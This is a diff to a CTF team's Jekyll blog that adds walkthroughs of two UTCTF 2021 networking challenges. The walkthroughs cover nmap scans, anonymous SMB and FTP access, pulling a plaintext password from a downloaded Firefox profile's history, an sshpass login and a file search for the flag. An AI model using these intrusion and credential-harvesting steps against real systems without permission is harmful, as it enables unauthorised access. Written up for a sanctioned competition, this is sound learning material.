

Before and after one commit to born2scan/born2scan.github.io, a Jekyll site: the page built from _posts/2021-03-15-UTCTF.md, in a window 1280 px wide and 1400 px high, scrolled down 4492 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
feat: networking challenges

````diff
--- a/_posts/2021-03-15-UTCTF.md
+++ b/_posts/2021-03-15-UTCTF.md
@@ -87,6 +87,7 @@ The link in the prompt refers to the Wikipedia page about _illegal primes_, prim
 So if we try and interpret the number `p` as a byte array, it is indeed the numeric representation of the (padded) string `k = 5a0b05...` which really looks like our key!
 
 Now we can easily decrypt the ciphertext as follows:
+
 ```py
 from Crypto.Util.number import long_to_bytes
 
@@ -112,6 +113,142 @@ And here's our flag!
 
 # Networking
 
+## Be My Guest
+
+> Can you share some secrets about this box?<br>
+> nmap is allowed for this problem. However, you may only target 'misc.utctf.live port 8881 & 8882'. Thank you.
+
+Such an explicit scanning permission needs to be acted upon, and while we're at it let's enable some version detection too:
+
+```bash
+nmap -sV -T4 -p 8881-8882 misc.utctf.live
+```
+
+```
+PORT     STATE SERVICE     VERSION
+8881/tcp open  netbios-ssn Samba smbd 4.6.2
+8882/tcp open  netbios-ssn Samba smbd 4.6.2
+```
+
+[Samba](https://en.wikipedia.org/wiki/Samba_(software)) shares in a challenge with "guest" in its name? Anonymous credentials are worth try:
+
+```bash
+smbclient -U anonymous%anonymous -p 8881 -L misc.utctf.live
+```
+
+```
+Sharename       Type      Comment
+---------       ----      -------
+guest           Disk      Look, but don't touch please.
+IPC$            IPC       IPC Service (Samba Server)
+```
+
+Let's browse the share's contents:
+
+```bash
+smbclient -p 8881 -U anonymous%anonymous \\\\misc.utctf.live\\guest
+```
+
+```
+smb: \> ls
+  .                                   D        0  Fri Mar 12 07:45:26 2021
+  ..                                  D        0  Fri Mar 12 23:44:53 2021
+  flag.txt                            N       30  Fri Mar 12 07:45:26 2021
+smb: \> get flag.txt
+getting file \flag.txt of size 30 as flag.txt (0,1 KiloBytes/sec) (average 0,1 KiloBytes/sec)
+```
+
+Nice :)
+
+🏁 __utflag{gu3st_p4ss_4_3v3ry0n3}__{:.spoiler}
+
+---
+
+## Hack Bob's Box
+
+> Hack Bob's box!<br>
+> nmap is allowed for this problem only. However, you may only target utctf.live:8121 and utctf.live:8122 with nmap.
+
+Like before, let's poke at the thing and try some slightly more aggressive version detection:
+
+```bash
+nmap -sC -sV -T4 -p 8121-8122 misc.utctf.live
+```
+
+```
+PORT     STATE SERVICE VERSION
+8121/tcp open  ftp     Pure-FTPd
+| ftp-anon: Anonymous FTP login allowed (FTP code 230)
+|\_Can't get directory listing: PASV IP 172.19.0.2 is not the same as 3.236.87.2
+8122/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
+| ssh-hostkey:
+|   2048 31:84:d1:43:41:53:48:71:50:6a:91:51:13:a9:97:88 (RSA)
+|   256 48:00:d0:e3:0f:53:d5:d2:42:0a:be:0d:69:d1:5f:ba (ECDSA)
+|\_  256 99:0f:41:82:b1:ce:3b:06:6c:ab:55:c5:46:e7:c2:a7 (ED25519)
+Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel
+```
+
+After a few tries with `lftp` and `ftp`, it's confirmed that the FTP server is returning an unroutable (internal) IP address when enabling passive mode. Active mode won't get us anywhere and trying to manually override the `PORT` command gets ignored by the server, which always returns a random port on `172.19.0.2`.
+
+At this point my hypothesis was that, since the OpenSSH server version was quite old, maybe some known CVE could be used to exploit it and get access to the internal network. Then we could tap into the FTP server's passive mode session and dump the received data. After _a lot_ of fiddling, out of the blue the FTP server actually started behaving correctly and let us in with anonymous credentials. Maybe it was misconfigured at the start of the CTF and someone fixed it later on? Anyway:
+
+```bash
+lftp anonymous:anonymous@misc.utctf.live:8121
+```
+
+```
+lftp anonymous@misc.utctf.live:/> ls
+drwxr-xr-x    1 0          0                4096 Mar 12 18:53 .
+drwxr-xr-x    1 0          0                4096 Mar 12 18:53 ..
+drwxr-xr-x    3 0          0                4096 Mar 12 18:53 .mozilla
+drwxr-xr-x    2 0          0                4096 Mar 12 18:53 .ssh
+drwxr-xr-x    2 0          0                4096 Mar 12 18:53 docs
+drwxr-xr-x    2 0          0                4096 Mar 12 18:53 favs
+lftp anonymous@misc.utctf.live:/> ls .ssh
+drwxr-xr-x    2 0          0                4096 Mar 12 18:53 .
+drwxr-xr-x    1 0          0                4096 Mar 12 18:53 ..
+-rw-rw-r--    1 0          0                   0 Mar 12 06:45 authorized_keys
+-rw-rw-r--    1 0          0                2622 Mar 12 06:45 id_rsa
+-rw-rw-r--    1 0          0                 587 Mar 12 06:45 id_rsa.pub
+-rw-rw-r--    1 0          0                   0 Mar 12 06:45 known_hosts
+```
+
+An SSH key is readable, but since the `authorized_keys` file is empty we can safely assume that it can't be used to log in. Too bad, what else is in here? It seems that `.mozilla/firefox/yu85tipn.bob/` contains Bob's Firefox profile, let's pull it down and inspect it.
+
+```bash
+lftp anonymous@misc.utctf.live:/> mirror .mozilla/firefox/yu85tipn.bob
+```
+
+Not knowing if the contents of the profile are safe, I chose to run it through [firefed](https://github.com/numirias/firefed) instead. No extensions, no relevant bookmarks, some tracking cookies, no saved logins... but some interesting history! As a bonus, it seems that Bob is interested in either animals or Nintendo emulators 🐬
+
+```bash
+firefed -p yu85tipn.bob visits
+
+#...
+2021-03-02 18:20:55 http://bobsite.com/login?user=bob&pass=i-l0v3-d0lph1n5
+```
+
+Aha! SSL might protect your queries (well, not in this case...), but it can't save you from the dreaded _browser history_.
+
+```bash
+sshpass -p "i-l0v3-d0lph1n5" ssh -p 8122 bob@misc.utctf.live
+
+bob@ab405b7be269:~$
+```
+
+Let's abuse the server's resources for a moment since we're lazy and don't want to poke around too much:
+
+```bash
+bob@ab405b7be269:~$ find / -type f -iname "*flag*" 2>/dev/null
+
+#...
+/flag.txt
+```
+
+🏁 __utflag{red_teams_are_just_glorified_password_managers}__{:.spoiler}
+
+---
+
 # Reverse
 
 # Forensics
````
